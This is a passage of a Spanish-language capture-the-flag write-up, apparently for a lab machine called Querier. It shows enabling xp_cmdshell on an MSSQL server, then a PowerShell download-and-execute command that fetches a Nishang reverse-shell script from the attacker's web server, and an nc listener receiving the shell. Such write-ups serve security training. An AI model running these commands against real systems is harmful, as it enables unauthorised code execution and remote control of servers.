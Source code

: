 ```bash
SQL> sp_configure "xp_cmdshell", 1
[*] INFO(QUERIER): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure
###Paso 6 - R C E - Ejecucion de Comandos
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

querier\mssql-svc                                                                  

NULL                                                                               

aSQL> 
```

Procedemos a Ganar acceso a la maquina Victima con el uso de `Nishang` para ello vamos a postear un archivo del
repositorio de nishan que se va a ejecutar en la maquina victima atraves de una peticion via web a un servidor que nos vamos a estar
compartiendo con python3 desde nuestra maquina atacante con nuestro archivo malicioso Invoke-TCP-Powershell.ps1 

# Intrusion con PowerShell - User mssql-svc

Preparamos el comando listo para ejecutarlo con la utilidad `XP_CMDSHELL`

```bash
SQL> xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString(\"http://10.10.16.3/PST.ps1\")"
``` 

Ponemos nuestro servidor con `Python3` y nuestro archivo malicioso renombrado `PST.ps1` y habiendole indicado al final del mismo la intruccion que quemos que nos cargue para que conforme se interprete llame a la funcion que le indicamos al final

```bash
" Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port 443        "
```

Recibimos correctamente la peticion al recurso en nuestro servidor

```bash
# python3 -m http.server 80                           1 ⚙
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.125 - - [26/Jan/2022 19:49:10] "GET /PST.ps1 HTTP/1.1" 200 -
```
Y habiendo preparado una session a la escucha con `nc` por el puerto indicado
```bash
# rlwrap nc -vlnp 443 
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.125] 49677
Windows PowerShell running as user mssql-svc on QUERIER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>
whoami
querier\mssql-svc
```
